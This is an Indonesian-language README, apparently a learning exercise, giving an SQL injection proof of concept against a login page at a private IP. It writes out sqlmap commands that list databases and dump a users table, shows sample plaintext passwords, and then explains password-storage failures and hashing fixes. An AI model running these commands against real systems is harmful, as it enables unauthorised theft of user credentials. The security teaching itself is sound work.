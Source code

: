 # SQL Injection Proof of Concept (PoC) Using SQLMap

## Deskripsi
Dokumen ini adalah *Proof of Concept (PoC)* untuk menguji kerentanan SQL Injection pada endpoint `http://192.168.1.5/users/login.php` menggunakan `sqlmap`. Uji coba ini bertujuan untuk mengeksplorasi database, menemukan tabel pengguna, dan meninjau cara penyimpanan password pengguna di database.

> **Peringatan**: Ini adalah PoC yang hanya boleh digunakan pada sistem yang Anda miliki atau memiliki izin resmi untuk diuji. Mengakses atau memodifikasi data tanpa izin melanggar hukum.

---

## Prasyarat
1. **sqlmap** terinstal di sistem Anda. Untuk mengunduh, kunjungi [sqlmap.org](https://sqlmap.org/).
2. Akses ke endpoint `http://192.168.1.5/users/login.php`.

---

## Langkah-Langkah Eksekusi

### 1. Menemukan Database yang Tersedia
Gunakan perintah berikut untuk menemukan database yang tersedia di server:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" --dbs
```

#### Penjelasan Parameter
- `-u "http://192.168.1.5/users/login.php"`: Menentukan URL target.
- `--data="username=admin&password=password"`: Mengirim data POST dengan parameter `username` dan `password`.
- `--dbs`: Meminta `sqlmap` untuk menampilkan daftar database yang tersedia di server.

#### Contoh Output
Output dari langkah ini akan menampilkan daftar database yang tersedia, misalnya:

```plaintext
[INFO] retrieved: blog_db
[INFO] retrieved: test_db
```

### 2. Mengambil Data dari Tabel `users` di Database `blog_db`
Setelah database ditemukan, kita bisa mengambil data dari tabel tertentu. Gunakan perintah berikut untuk mengambil data dari tabel `users` di database `blog_db`:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" -D blog_db -T users --dump
```

#### Penjelasan Parameter
- `-D blog_db`: Menentukan nama database (`blog_db`) yang ingin diakses.
- `-T users`: Menentukan nama tabel (`users`) yang ingin diambil datanya.
- `--dump`: Menginstruksikan `sqlmap` untuk menampilkan seluruh data dari tabel yang ditargetkan.

#### Contoh Output
Output dari perintah ini mungkin menampilkan data seperti berikut:

```plaintext
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | admin    | admin123 |
| 2  | user     | userpass |
+----+----------+----------+
```
![alt text](https://github.com/RafiNashirudin/OWASP-TOP-10/blob/main/A03%3A2021-Injection/Image/injection.png?raw=true)

Pada hasil di atas, terlihat bahwa kolom `password` menyimpan password dalam bentuk teks biasa (*plain text*), bukan dalam bentuk yang terenkripsi atau di-hash. Ini adalah kelemahan serius yang masuk dalam kategori **Cryptographic Failures**.

---

## Analisis Kelemahan: Cryptographic Failures
### Penjelasan
Menyimpan password dalam bentuk teks biasa merupakan contoh *Cryptographic Failures*, di mana data sensitif seperti password tidak dilindungi dengan metode kriptografi yang tepat. Kelemahan ini dapat menyebabkan risiko besar bagi keamanan data pengguna.

### Dampak
1. **Akses Tidak Sah**: Jika terjadi pelanggaran data, penyerang bisa langsung melihat dan menggunakan password.
2. **Kegagalan Kepatuhan**: Banyak standar keamanan (misalnya, GDPR, HIPAA, PCI-DSS) mengharuskan data sensitif dienkripsi atau di-hash.
3. **Penyalahgunaan Kredensial**: Jika pengguna memakai ulang password di sistem lain, hal ini bisa mengakibatkan serangan yang meluas.

### Rekomendasi
Untuk mencegah kelemahan ini:
- **Hash Password dengan Algoritma yang Aman**: Gunakan hashing dengan algoritma yang kuat seperti `bcrypt`, `argon2`, atau `scrypt`.
- **Implementasikan Salt dan Pepper**: Tambahkan salt (nilai acak) pada setiap password sebelum hashing untuk meningkatkan keamanan dan mencegah serangan *rainbow table*.
- **Jangan Simpan Password dalam Teks Biasa**: Hindari menyimpan data sensitif dalam bentuk teks yang dapat dibaca langsung.

---

## Output yang Diharapkan dengan Penanganan yang Benar
Jika password disimpan dengan hashing yang benar, hasil dump seharusnya menunjukkan string acak yang terenkripsi, misalnya:

```plaintext
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | admin    | $2y$12$ePjDf5Kjd91ahZn/rF2ZLO3MC5E1.Ln.bD |
| 2  | user     | $2y$12$HtXmX47SDh2PAphH71HX93r/Kz6Re9kjgq |
+----+----------+-------------------------------------------+
```

---

## Gambar Hasil Eksekusi

### Hasil Langkah 1: Menemukan Database yang Tersedia
![Database List](images/database_list_result.png)

### Hasil Langkah 2: Mengambil Data dari Tabel `users`
![User Table Dump](images/user_table_dump.png)

Gambar di atas menunjukkan data dari tabel `users` yang menyimpan password dalam bentuk teks biasa, yang merupakan contoh *Cryptographic Failures*.

---

## Referensi
- [SQLMap Documentation](https://sqlmap.org/)
- [OWASP Cryptographic Failures](https://owasp.org/Top10/A03_2021-Cryptographic_Failures/)

---

> **Catatan Penting**: Pastikan Anda memiliki izin untuk melakukan pengujian ini. Semua pengujian dan eksplorasi dalam dokumen ini hanya untuk tujuan pembelajaran di lingkungan yang diizinkan.
```

Dalam `README.md` ini, penjelasan mengenai *Cryptographic Failures* sudah termasuk dampak dan rekomendasi solusi untuk mencegah kelemahan tersebut. Selain itu, gambar hasil eksekusi dapat ditempatkan sesuai instruksi di bagian gambar untuk membantu memberikan visualisasi.
